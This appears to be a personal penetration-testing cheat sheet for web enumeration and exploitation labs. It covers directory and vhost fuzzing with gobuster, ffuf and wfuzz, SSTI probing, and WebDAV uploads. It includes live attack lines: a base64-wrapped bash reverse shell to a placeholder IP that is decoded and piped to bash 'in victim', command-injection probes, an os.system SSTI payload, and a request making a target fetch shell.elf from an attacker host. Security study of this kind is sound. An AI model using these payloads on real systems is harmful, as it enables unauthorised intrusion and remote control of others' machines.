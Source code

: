 # Web Ass Tool

## Web Enum
- curl traversal check ``` curl --path-as-is {URL} ```

## Nmap
- Use NSE script
``` http-num  ```

## Use Gobuster 

### Source code
1. ctrl-u to read source code
2. Try finding libraries, engine, plugins, hyperlinks

### Guess what framework / language is using!
- ``` whatweb ```
- Can be identify by error in error page e.g. "Whitelabel Error Page" = Springboot 
- Try "SecList/Discovery/Web-Content/spring-boot.txt"

###  Gobuster fuzzing
1.  ``` gobuster dir -u {ip} -w /usr/share/wordlists/dirb/common.txt -t 42 ```

    ``` -x txt,bak,php,html,js,asp,aspx ```can add filetype here (https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)

### Gobuster enum API
- Provide pattern in pattern file
    ``` {GOBUSTER}/v1 ```

### Gobuster enun vhost
1. ``` gobuster vhost -u {http://goolugoolu.com} -w /usr/share/seclists/discovery/dns/subdomains-top1million-5000.txt ```

### Enum (RECURSIVELY IF NEEDED!)
    ``` gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern -t 42```

### Try harder !
- Try more seclists
    ```
    /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
    /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    ```
- Enum try more file extension!!! (Dont be lazy)
- if website is not case-sentitive can use single case only wordlist

### With proxy simple!
- ``` HTTP_PROXY="http://192.168.153.189:3128/" gobuster dir -u http://192.168.153.189:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 42  ```

## feroxbuster 
- Support recursive and interactive scanning
- ``` feroxbuster -k -u {url} -x {file_type} -o {outputfile} -w {wordlist} ```
### Stop scanning some path within progress
1. Hit 'enter' to start menu
2. ``` c -f {number of branch} ```

## ffuf
### Check subdomain
- ```ffuf -u http://{ip} -H "Host:FUZZ.{hostname}" -w /usr/share/seclists/discovery/dns/subdomains-top1million.txt ```
- ``` -fc 403 ``` filter code = 403
- ``` -fs 1234 ``` filter size = 1234
### Check special character
- ``` using /opt/seclists/fuzzing/special-char.txt ```

## SSTI
- https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti 
- ``` ${{<%[%'"}}%\. ``` Testing these character

### Check which character can be use
1. Try calling the get/post in burp
2. right click the request and "Copy to file"
3. edit the file and add "FUZZ" to the request
4. fuzz ``` fuzz -request search.req -request-proto http -w /usr/share/SecLists/Fuzzing/special-chars.txt ```
5. check which character is vulnerable ( sometimes maybe result size = 0 is )
6. can try code execution e.g. python: maybe code have ```eval()``` and you can ```__import__('os').system(whoami)```

### Java: check link
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Base64 encode and decode a one liner
1. ``` echo -n "bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1'" | base64 ``` encode
2. ``` echo -n {base64encoded} | base64 -d | bash``` decode and run in victim
   
### Bash command injection
- try url encode also if normal not working
- ```;{sleep 2};```
- ```; sleep 2; ```

## Burp Suite
- You know what to do =]

## Dirb
- check hidden shit
- ``` dirb http://192.168.1.224/ /usr/share/wordlists/dirb/common.txt ```

## Traversal with gobuster if can access machine file system
- e.g. ../../...../Users/Hayer/{Gobuster}.txt .pdf etc...

- curl POST ``` curl -X POST -d "code=2*2" http://192.168.171.117:50000/verify```

- curl POST w/ JSON ``` curl -v -X POST -H "Content-Type: application/json" -d '{"user":"clumsyadmin", "url":"http://192.168.45.197/shell.elf"}' "http://192.168.173.134:13337/update"  ```

- useful file 
1. .htaccess will tell you some hidden allowed key pair header --> add = can access 
   ``` do with burp suite browser
    - proxy -> option -> match and place --> request header & replace: {new header} --> ok
   ```

- Useful url

    ``` sitemap.xml robots.txt ```

- Useful header info

    ``` X-??? ```

- http file to markdown
  ``` curl -s http://192.168.244.140:8000/ | html2markdown ```

## wFuzz
- https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz 
1. ``` wfuzz -c -z file,/usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -d '{"user":FUZZ,"url":"http://192.168.45.197/shell.elf"}' -H "Content-Type: application/json" -t 20 -v http://192.168.173.134:13337/update ```

# Try Default password !!!

## HTML entity encoder
- https://mothereff.in/html-entities 
- e.g. for java <xml>

# Webdav hacks
- if allow public method POST
## Inject rev shell
1. ``` cadaver http://192.168.219.122 ```
2. input user name
3. input password
4. ``` put sussy.baka ```